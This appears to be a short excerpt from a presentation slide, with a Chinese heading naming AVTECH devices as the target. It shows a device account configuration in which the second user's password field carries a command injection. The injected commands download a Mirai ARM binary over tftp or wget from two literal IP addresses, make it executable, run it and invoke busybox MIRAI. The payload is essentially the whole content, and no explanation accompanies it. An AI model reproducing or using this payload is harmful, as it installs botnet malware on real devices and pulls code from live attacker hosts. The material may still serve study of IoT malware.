

# 如针对AVTECH的
Account.User1.Username=admin
Account.User1.Password=admin
Account.User1.Level=SUPERVISOR
Account.User1.Lifetime=INFINITE
Account.User2.Username=aaaa
Account.User2.Password=;tftp -l /dev/dvrHelper -r mirai.arm -g 151.80.99.84 || wget http://5.206.225.122/bins/mirai.arm -O /dev/dvrHelper; chmod 777 /dev/dvrHelper; cd /dev; ./dvrHelper 2>&1;/bin/busybox MIRAI 2>&1;
Account.User2.Level=SUPERVISOR
Account.User2.Lifetime=1 HOUR